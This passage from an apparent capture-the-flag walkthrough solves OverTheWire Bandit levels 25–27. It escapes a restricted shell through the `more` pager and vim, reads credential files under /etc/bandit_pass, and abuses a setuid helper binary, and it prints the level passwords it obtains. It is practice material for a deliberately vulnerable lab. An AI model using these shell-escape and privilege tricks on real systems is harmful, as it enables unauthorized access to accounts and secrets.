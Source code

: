 We know that if `more` can't display all the output in 1 go we can spawn a shell with `!` or by pressing `v` to start `vi`/`vim` and spawn a shell from there.

So how do we trigger this state ? We can't update the file in bandit26's home folder.

Whats left...

...

...

{{< figure src="/images/2019/09/reaction.gif" caption="MFW I released I should resize my damn terminal window." >}}

```
~/wargames/overthewire/bandit$ ssh bandit25@bandit.labs.overthewire.org -p 2220

 _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
 | |__   __ _ _ __   __| |_| |_   ) / /_
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
-More--(83%)
```

So lets spawn a shell. Press `v` to open `vim` and update our shell. Then spawn it.

```
:set shell=/bin/bash
:shell
bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
```

### Bandit Level 26 → Level 27

**Level Goal:**
*Good job getting a shell! Now hurry and grab the password for bandit27!
*

While still in our MoreVimShell lets run see whats in the home folder of bandit26. It seems there is another `bandit-do` binary like in Bandit Level 19 → Level 20. Lets use it to `cat` the password file.

```
bandit26@bandit:~$ ls -la
total 36
drwxr-xr-x  3 root     root     4096 Oct 16  2018 .
drwxr-xr-x 41 root     root     4096 Oct 16  2018 ..
-rwsr-x---  1 bandit27 bandit26 7296 Oct 16  2018 bandit27-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
drwxr-xr-x  2 root     root     4096 Oct 16  2018 .ssh
-rw-r-----  1 bandit26 bandit26  258 Oct 16  2018 text.txt
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
